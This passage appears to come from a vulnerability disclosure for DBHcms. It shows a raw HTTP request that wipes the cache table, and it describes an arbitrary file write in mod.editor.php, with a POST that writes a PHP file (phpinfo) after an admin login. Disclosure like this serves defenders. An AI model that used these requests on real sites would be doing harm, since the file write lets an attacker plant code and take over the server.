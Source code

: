 you can empty the table named `xxx_cms_cache` by requesting the following:

```
POST /index.php?dbhcms_pid=9999999999&dbhcms_params=32333 HTTP/1.1
Host: localhost:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Connection: close
Referer: http://localhost:8089/index.php?dbhcms_pid=9999999999&dbhcms_params=3333
Upgrade-Insecure-Requests: 1

dbhcmsCache=CT_EMPTYALL
```

![](images/2019-07-25-16-58-41.png)


## [14]

in dbhcms\mod\mod.editor.php $_POST['updatefile'] is filename and $_POST['tinymce_content'] is file content,and there has no filter function for security, you can write any filename with any content. 

![](images/2019-07-25-17-00-30.png)

first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-6
POST
updatefile=123.php&tinymce_content=<?php phpinfo();?>

![](images/2019-07-25-17-04-59.png)
